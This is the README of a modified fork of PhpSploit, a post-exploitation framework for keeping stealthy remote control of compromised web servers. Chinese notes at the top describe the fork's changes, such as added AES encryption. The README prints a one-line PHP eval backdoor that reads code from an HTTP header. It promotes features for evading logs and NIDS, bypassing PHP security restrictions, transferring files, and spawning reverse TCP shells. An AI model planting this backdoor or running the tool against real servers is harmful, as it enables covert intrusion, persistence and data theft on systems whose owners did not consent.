

# 修改后：

1. 修改只默认post请求 
2. 添加了AES加密
3. 大文件超过15M会出问题

# TODO:

1. 针对各种变形shell的支持

# 提示

1. 项目主要依赖eval来执行php代码，是一个大问题，在支持eval的环境下用不错。
2. 如果运行了过后要加载修改后的配置文件，必须删除/root/.phpsploit/config，让它重新生成加载。

### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[](https://travis-ci.org/nil0x42/phpsploit)
[](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[](https://codecov.io/gh/nil0x42/phpsploit)
[](https://codeclimate.com/github/nil0x42/phpsploit/maintainability)
[](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)




* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore -->
| [<br /><sub><b>nil0x42</b></sub>](https://exdemia.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Code") [🚇](#infra-nil0x42 "Infrastructure (Hosting, Build-Tools, etc)") [🔌](#plugin-nil0x42 "Plugin/utility libraries") [⚠️](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Tests") | [<br /><sub><b>shiney-wh</b></sub>](https://github.com/shiney-wh)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=shiney-wh "Code") [🔌](#plugin-shiney-wh "Plugin/utility libraries") | [<br /><sub><b>Wannes Rombouts</b></sub>](http://wapiflapi.github.io)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=wapiflapi "Code") [🚧](#maintenance-wapiflapi "Maintenance") | [<br /><sub><b>Amine Ben Asker</b></sub>](http://yurilz.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz "Code") [🚧](#maintenance-yurilaaziz "Maintenance") | [<br /><sub><b>jose nazario</b></sub>](http://twitter.com/jnazario)<br />[📖](https://github.com/nil0x42/phpsploit/commits?author=paralax "Documentation") [🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax "Bug reports") | [<br /><sub><b>Sujit Ghosal</b></sub>](http://wikisecure.net)<br />[📝](#blog-sujit "Blogposts") | [<br /><sub><b>Zerdoumi</b></sub>](https://github.com/sohelzerdoumi)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi "Bug reports") |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| [<br /><sub><b>tristandostaler</b></sub>](https://github.com/tristandostaler)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler "Bug reports") | [<br /><sub><b>Rohan Tarai</b></sub>](https://github.com/rohantarai)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai "Bug reports") |
<!-- ALL-CONTRIBUTORS-LIST:END -->

_This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!_

